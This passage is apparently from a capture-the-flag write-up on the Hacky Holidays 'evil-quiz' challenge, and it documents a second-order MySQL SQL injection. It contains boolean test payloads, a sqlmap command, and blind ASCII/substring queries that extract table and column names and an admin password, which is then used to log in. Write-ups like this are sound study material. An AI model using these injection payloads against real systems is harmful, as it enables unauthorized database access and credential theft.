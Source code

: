 So by using # (it is used as a commnet in mysql), I was able to fix the query.
To confirm sqli was there, I tried 

test' and 1=2# //Returns false so 0 players matched
test' and 1=1# //Returns true so 6 players matched


From this blog , https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap , we could see that we can use sqlmap to exploit this 2nd order sqli.

```bash
sqlmap -u "https://hackyholidays.h1ctf.com/evil-quiz"  --data "name=test" -p "name" --method POST --second-url "https://hackyholidays.h1ctf.com/evil-quiz/score" --cookie="session=TokenHere"
```

But sqlmap didn't worked for me, so I moved try to do the sqli manually.
I started with using order by clause and found there are 4 columns in the table, but I was not able find the vulnerable column so I left the union based way.

```
test' order by 4#
test' union select 1,2,3,4#

```

Character by character I first exracted the table name:

```
test' and Ascii(substring((Select+concat(table_name)from+information_schema.tables+where+table_schema=database()+limit+0,1),1,1))=0#

Result:
admin
```

Then extracted the column_name

```
name=admin' and Ascii(substring((Select+concat(column_name)+from+information_schema.columns+where+table_name=0x61646d696e+limit+0,1),1,1))=0#

Result: found 3 columns under admin table
id, username, password

```

Then getting the password took too much time as it was having special characters and numbers in it too.

```
test' and Ascii(substr((select+concat(password)+from+admin+limit+0,1),1,1))=83#

Result:
S3creT_p4ssw0rd-$

```

took a wild guess for the username "admin", tried this creds in the login panel and they worked.
